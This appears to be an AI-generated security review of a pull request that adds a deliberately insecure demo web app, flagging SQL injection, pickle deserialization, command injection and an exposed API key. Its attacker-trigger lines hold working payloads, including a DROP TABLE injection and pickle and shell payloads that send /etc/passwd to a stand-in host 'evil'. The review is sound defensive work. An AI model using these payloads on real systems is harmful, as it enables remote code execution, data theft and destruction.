

<!-- torii-review pr=bench-f70 run=local -->
---

**Verdict:** REQUEST CHANGES
**Score:** 5 / 100

### Summary
Four critical vulnerabilities across four endpoints — SQL injection, insecure deserialization with remote code execution, command injection with `shell=True`, and plaintext secrets exposure. This file is self-labeled "DO NOT deploy" and every endpoint is exploitable with a single unauthenticated HTTP request. The diff introduces no mitigations, no input validation, no parameterization, no auth, and no rate limiting.

### Architecture diagram
<!-- torii-mermaid -->

_Auto-generated from 0 changed file(s) (F57). Edges between groups are adjacency, not proven runtime dependencies._

### Blocking
All four findings below are blocking. No production deploy should proceed with any of these paths live.

### Security audit
| Issue | CWE | Severity | Endpoint |
|---|---|---|---|
| SQL injection | CWE-89 | Critical | `/search` |
| Insecure deserialization | CWE-502 | Critical | `/load` |
| Command injection | CWE-78 | Critical | `/run` |
| Secrets exposure | CWE-200, CWE-798 | High | `/secret` |

### Key findings
**1. SQL injection via f-string interpolation** — `demo/insecure/app.py:18`
- **Sink:** `cur.execute(f"SELECT * FROM items WHERE name = '{q}'")` at line 18.
- **Source:** `q = request.args.get("q", "")` at line 15 — untrusted query parameter interpolated directly into SQL with no parameterization or escaping.
- **Attacker trigger:** `GET /search?q='; DROP TABLE items; --` — the attacker controls the full SQL tail after the quote. Data exfiltration via `UNION SELECT` is also trivially reachable.
- **Matches TP signature:** `sqli-search` (15 prior hits, CWE-89).

**2. Arbitrary code execution via pickle deserialization** — `demo/insecure/app.py:26`
- **Sink:** `pickle.loads(data)` at line 26.
- **Source:** `data = request.data` at line 25 — raw POST body fed directly to `pickle.loads`.
- **Attacker trigger:** `POST /load` with a crafted pickle payload (`cos\nsystem\n(S'curl http://evil/$(cat /etc/passwd)'\ntR.`) — pickle `__reduce__` executes arbitrary Python at deserialization time, no post-load usage required.
- **Matches TP signature:** `pickle-load` (15 prior hits, CWE-502).

**3. Command injection via shell=True** — `demo/insecure/app.py:33`
- **Sink:** `subprocess.check_output(cmd, shell=True)` at line 33.
- **Source:** `cmd = request.args.get("cmd", "echo hi")` at line 32 — untrusted query parameter passed to a shell.
- **Attacker trigger:** `GET /run?cmd=cat /etc/passwd; curl http://evil/$(whoami)` — shell metacharacters (`;`, `|`, `$()`, backticks) all execute. The default `echo hi` is safe but the attacker controls the parameter.
- **Matches TP signature:** `cmdi-run` (15 prior hits, CWE-78).

**4. Secrets exposure via unauthenticated endpoint** — `demo/insecure/app.py:38`
- **Sink:** `return {"key": os.environ.get("OPENROUTER_API_KEY", "missing")}` at line 38.
- **Source:** Process environment variable containing a live API credential.
- **Attacker trigger:** `GET /secret` — any unauthenticated caller retrieves the plaintext key. If the key is set in the environment (default on many deployment platforms), the attacker gets a valid credential usable for API abuse, cost accrual, or lateral movement.
- **Matches TP signature:** `secret-exposure` (15 prior hits, CWE-200/CWE-798).

### Multi-lens checklist
| Lens | Status | Note |
|---|---|---|
| Injection | **concern** | SQL injection (line 18), command injection (line 33) |
| AuthZ / authN | **concern** | No auth on any endpoint; `/secret` exposes credentials |
| Secrets | **concern** | `OPENROUTER_API_KEY` served over HTTP with no protection |
| XSS / CSRF | n/a | JSON responses, no reflected HTML in this diff |
| SSRF | n/a | No outbound URL fetching in this diff |
| Unsafe deserialize | **concern** | `pickle.loads()` on untrusted input (line 26) |
| Crypto misuse | n/a | No crypto in this diff |
| Supply chain | n/a | Standard library imports only; no new dependencies |
| Fail-open defaults | **concern** | Every endpoint defaults to exploitable — no safe default anywhere |
| DoS unbounded work | **concern** | No input size limits; `pickle.loads` and SQL execution unbounded |

### Suggested test plan
<!-- torii-testplan -->

_Auto-generated (F61, deterministic). 0 case(s) (0 P0, 0 P1); 0 prod / 0 test file(s); 0 symbol(s) from diff. Authors: treat P0 as merge-blocking coverage gaps; model may refine._

None — no actionable test scenarios derived from files/diff.

### Tests & risk
- **Tests:** Zero tests in the diff. No input validation tests, no negative fuzzing tests, no auth gate tests.
- **Risk:** If deployed, every endpoint is remotely exploitable by an unauthenticated attacker. RCE is confirmed on two paths (`/load` via pickle, `/run` via shell). Credential theft is confirmed on one path (`/secret`). Data exfiltration/destruction via SQL injection on `/search`.

### What I checked
- Full 38-line file read and traced every endpoint's source-to-sink.
- Memory search (`scripts/torii.py memory -- search -- -q "auth OR sql OR pickle OR secret"`) returned 8 hits confirming four TP signatures matching this file's basename.
- Hub archival search (`scripts/archival_memory_search.py auto --files app.py`) returned 8 hits with all four themes (`sqli-search`, `pickle-load`, `cmdi-run`, `secret-exposure`) reconsolidated and federated.
- `torii.py doctor` confirms all recovery and memory loops operational.
- This is intentionally insecure demo code (header comment at line 1 explicitly says "DO NOT deploy") — findings are correct and expected.

**— Torii Gate**

---
*Torii · Hermes Agent · OpenRouter · memory-backed review*
*Cost / usage: model=`deepseek/deepseek-v4-pro` · ~$0.0069 (estimated) · 28k tokens · 3 API calls*
